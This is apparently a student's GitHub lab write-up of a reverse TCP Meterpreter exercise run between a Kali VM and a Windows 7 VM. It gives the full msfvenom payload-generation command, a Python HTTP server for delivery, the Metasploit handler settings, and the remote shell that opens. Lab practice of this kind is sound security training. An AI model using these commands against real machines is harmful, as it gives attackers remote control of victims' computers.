






# Reverse TCP Meterpreter Using Metasploit

## Overview

This project documents a **Reverse TCP Meterpreter practical** performed in an isolated VMware lab using Kali Linux, Metasploit Framework, and a Windows 7 virtual machine. The steps and results below are based on the supplied screenshots.

> **Lab safety:** Perform these exercises only on virtual machines you own or are explicitly authorized to test. Keep the lab isolated from production networks and do not run the generated payload on real users' devices.

## Lab Environment

| Component | Details |
|---|---|
| Attacker machine | Kali Linux VM |
| Attacker IP | `192.168.102.132` |
| Target machine | Windows 7 VM |
| Target IP | `192.168.102.131` |
| Target OS version shown | `6.1.7601` |
| Framework | Metasploit Framework `6.4.116-dev` |
| Payload | `windows/meterpreter/reverse_tcp` |
| Payload output file | `reverse_tcp.exe` |
| HTTP file-transfer port | `8000` |
| Reverse TCP handler port | `5555` |

## Practical: Reverse TCP Meterpreter

### 1. Generate the payload

The Windows Meterpreter reverse TCP executable was generated on Kali Linux with the following command:

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.102.132 lport=5555 -f exe > /home/kali/Desktop/shellcodes/reverse_tcp.exe
```

The terminal output shows an x86 payload and a final executable size of **7,168 bytes**.


### 2. Start a temporary HTTP server on Kali Linux

From the directory containing `reverse_tcp.exe`, a Python HTTP server was started on port `8000`:

```bash
python3 -m http.server 8000
```

The server listens on `0.0.0.0:8000`, making the file available to the lab target through the Kali VM's lab-network address.


### 3. Access the hosted file from the Windows VM

The Windows VM accessed the Kali HTTP server at:

```text
http://192.168.102.132:8000/
```

The directory listing displayed `reverse_tcp.exe`. The Windows download/open prompt identified the file as an application from an unknown publisher. This is a Windows publisher/signature warning; it is not, by itself, a malware verdict.


### 4. Configure the Metasploit handler

The Metasploit multi/handler was configured with the matching payload, Kali IP address, and listening port:

```text
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.102.132
set lport 5555
exploit
```

The console output confirms that the reverse TCP handler started on `192.168.102.132:5555` and that a Meterpreter session opened from the Windows VM (`192.168.102.131`). The screenshot shows the connection from target source port `49214` to the handler port `5555`.


### 5. Verify the Meterpreter session

From the opened Meterpreter session, the Windows command shell was entered:

```text
meterpreter > shell
```

The shell reported Windows version `6.1.7601`. A directory listing of `C:\Users\Shaik\Downloads` showed `reverse_tcp.exe` with a size of **7,168 bytes**.


## Results

- The reverse TCP executable was generated successfully on Kali Linux.
- The file was made available to the Windows lab VM using a temporary Python HTTP server.
- The Metasploit handler received a reverse connection from the Windows VM.
- A Meterpreter session was opened and a Windows command shell was accessed.
- The target's Downloads directory showed the generated executable.

## Conclusion

The Reverse TCP practical was successfully demonstrated in the VMware lab. The Windows VM initiated an outbound connection back to the Kali VM, allowing the configured Metasploit handler to establish a Meterpreter session. This confirms the reverse connection workflow in the controlled lab environment.

## Screenshots

The following screenshots are placed together at the end of this README in the order of the practical workflow.

### 1. Payload generation on Kali Linux



### 2. Python HTTP server running on Kali Linux



### 3. Payload directory listing on the Windows VM



### 4. Windows download/open security warning



### 5. Metasploit handler and opened Meterpreter session



### 6. Meterpreter shell and downloaded file verification


